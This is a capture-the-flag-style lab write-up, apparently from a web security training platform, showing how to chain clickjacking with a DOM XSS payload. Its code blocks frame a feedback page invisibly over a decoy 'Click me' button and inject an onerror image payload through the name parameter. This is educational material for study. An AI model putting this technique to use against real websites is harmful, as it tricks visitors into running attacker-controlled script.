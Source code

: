 # Lab description
Lab to perform a clickjacking attack that **triggers a DOM XSS attack.**
Obviously, the XSS vulnerability is triggered by clicking, therefore, the user clicks the button and a XSS attack is performed after clicking the button.

# Writeup
As always, we start from a base HTML that will contain an advanced iframe, in which the parameter name contains a XSS payload that will be preloaded in the page. The client, when clicking, will insert this payload in the page, creating a DOM XSS attack when clickjacking:

```css
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }

  div {
    position: absolute;
    top: $top_value;
    left: $side_value;
    z-index: 1;
  }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=
	<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult">
</iframe>
```

We can see the `<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult">` script inside the name parameter. Let's visit the preloaded attack that will be behind, invisible:
![](imgs/clickjacking_to_trigger_dom_xss.png)

Okay, let's modify the HTML code to match our dummy iframe with this invisible iframe:
![](imgs/clickjacking_to_trigger_dom_xss-1.png)

When executing the attack, the DOM XSS occurs as the victim stores the XSS.  This is the final HTML used for the attack:

```css
<style>
	iframe {
		position:relative;
		width:700;
		height: 600;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top:525;
		left:80;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="https://0a1900760444d3aa82b73d2500d800a7.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

The DOM XSS is stored:
![](imgs/clickjacking_to_trigger_dom_xss-2.png)
